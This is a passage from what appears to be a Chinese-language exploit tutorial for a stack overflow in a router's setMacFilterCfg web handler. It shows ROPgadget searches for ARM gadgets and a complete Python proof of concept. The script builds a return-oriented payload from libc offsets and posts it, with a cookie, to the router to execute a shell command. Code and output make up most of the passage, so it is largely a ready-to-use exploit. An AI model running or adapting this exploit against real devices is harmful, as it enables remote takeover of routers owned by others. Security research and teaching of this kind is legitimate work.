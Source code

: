 寻找gadets。

```
ROPgadget --binary ./lib/libc.so.0  | grep "mov r0, sp"
0x00040cb8 : mov r0, sp ; blx r3

ROPgadget --binary ./lib/libc.so.0 --only "pop"| grep r3
0x00018298 : pop `{`r3, pc`}`
```

最终，payload结构为[offset, gadget1, system_addr, gadget2, cmd] ，完整的POC如下：

```
import requests
from pwn import *

cmd="echo hello"
libc_base = 0xff58c000
system_offset = 0x5a270
gadget1_offset = 0x18298
gadget2_offset = 0x40cb8
system_addr = libc_base + system_offset
gadget1 = libc_base + gadget1_offset
gadget2 = libc_base + gadget2_offset

payload = "A"*176 + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd

url = "http://192.168.2.111/goform/setMacFilterCfg"
cookie = `{`"Cookie":"password=12345"`}`
data = `{`"macFilterType": "white", "deviceList": "r"+payload`}`
requests.post(url, cookies=cookie, data=data)
```

查看程序的打印信息，cmd中的echo指令已经被执行。

[![](https://p2.ssl.qhimg.com/t0131d6cc0259ca60dd.jpg)](https://p2.ssl.qhimg.com/t0131d6cc0259ca60dd.jpg)

PS：中间有些细节省略掉了，只给出了关键步奏。可以参考之前写的文章《写给初学者的实战教程之ARM栈溢出》，分析的是同一款路由器的其他漏洞。



## 参考

[https://github.com/ZIllR0/Routers/blob/master/Tenda/stack1.md](https://github.com/ZIllR0/Routers/blob/master/Tenda/stack1.md)<br>[https://www.anquanke.com/vul/id/1375399](https://www.anquanke.com/vul/id/1375399)
